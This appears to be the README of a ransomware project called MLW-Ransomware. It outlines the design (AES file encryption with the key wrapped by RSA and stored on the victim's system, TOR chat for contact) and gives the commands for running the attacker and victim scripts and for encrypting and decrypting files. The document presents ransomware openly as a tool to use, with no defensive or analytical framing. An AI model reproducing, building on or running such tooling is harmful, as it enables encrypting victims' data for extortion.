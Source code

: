 # MLW-Ransomware
# Features
- Encrypt files using AES with random IV.
- RSA to encrypt AES key. Store key in victim system. 
- TOR chat support.

# How it Works
Run attack:
```
/bin/bash Bash/bashAttacker.sh
/bin/bash Bash/bashVictim.sh
```


Encrypt files:
```
python upcrans.py --encrypt --path .
```

Decrypt files:
```
python upcrans.py --decrypt --AESkey KEY.txt --RSAkey KEYRSA.txt
```
Where AESkey is the path generated when files are encrypted and RSAkey is the private key of RSA that is stored in BBDD.


